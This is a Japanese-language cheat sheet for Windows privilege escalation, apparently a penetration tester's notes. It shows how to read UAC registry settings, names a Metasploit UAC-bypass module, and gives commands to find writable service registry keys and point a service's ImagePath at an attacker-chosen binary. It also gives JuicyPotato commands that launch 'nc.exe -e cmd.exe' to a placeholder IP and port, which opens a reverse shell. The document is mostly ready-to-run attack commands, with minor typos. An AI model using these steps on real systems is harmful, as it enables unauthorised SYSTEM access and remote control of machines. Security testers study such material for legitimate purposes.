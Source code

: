 これはUACがオンになっていることを意味します。これは、レジストリを読み取ることで確認できます。

EnableLUA UACが有効かどうかを示します。0の場合、バイパスする必要はまったくなく、PsExecからSYSTEMに接続できます。
ただし、1の場合は、他の2つのキーを確認してください
ConsentPromptBehaviorAdmin理論的には6つの可能な値を取ることができます
Windows設定でUACスライダーを構成すると、0、2、または5のいずれかになります。
PromptOnSecureDesktop 0または1のいずれかのバイナリです。

Metasploit

```
Module: exploit/windows/local/bypassuac_eventvwr
```

#### レジスレリーが変更できるか

サービスレジストリを変更できるかどうかを確認してください。サービスレジストリのパーミッションを確認することができます。

```cmd
reg query hklm\System\CurrentControlSet\Services /s /v imagepath 
```

書き込み権限があるかどうかを確認

```cmd
for /f %a in ('reg query hklm\system\currentcontrolset\services') do del %temp%\reg.hiv 2>nul & reg save %a %temp%\reg.hiv 2>nul && reg restore %a %temp%\reg.hiv 2>nul && echo You can modify %a

get-acl HKLM:\System\CurrentControlSet\services\* | Format-List * | findstr /i "<Username> Users Path Everyone"
```

Authenticated UsersやNT AUTHORITYINTERACTIVEがFullControlを持っているかどうかを確認します。その場合、サービスで実行されるバイナリを変更することができます。実行するバイナリのパスを変更します。

```cmd
reg add HKLM\SYSTEM\CurrentControlSet\srevices\<service_name> /v ImagePath /t REG_EXPAND_SZ /d C:\path\new\binary /f
```

#### JuicyPotato

`whoami /priv`

下記のどちらかが有効でであれば有効な可能性がある

```cmd
SeImpersonatePrivilege enable
SeAssignPrimaryTokenPrivilege enable
```

コマンド実行例

```cmd
Juicy.Potato.x86.exe -l 1337 -p c:\windows\system32\cmd.exe -a "/c c:\inetpub\wwwroot\nc.exe -e cmd.exe <IP> <port>" -t * -c {6d18ad12-bde3-4393-b311-099c346e6df9}

Juicy.Potato.exe -l 1337 -p c:\windows\system32\cmd.exe -a "/c c:\inetpub\wwwroot\nc.exe -e cmd.exe <IP> <port>" -t * -c {6d18ad12-bde3-4393-b311-099c346e6df9}

Juicy.Potato.exe -l 1337 -p c:\windows\system32\cmd.exe -t * -c {6d18ad12-bde3-4393-b311-099c346e6df9}
```
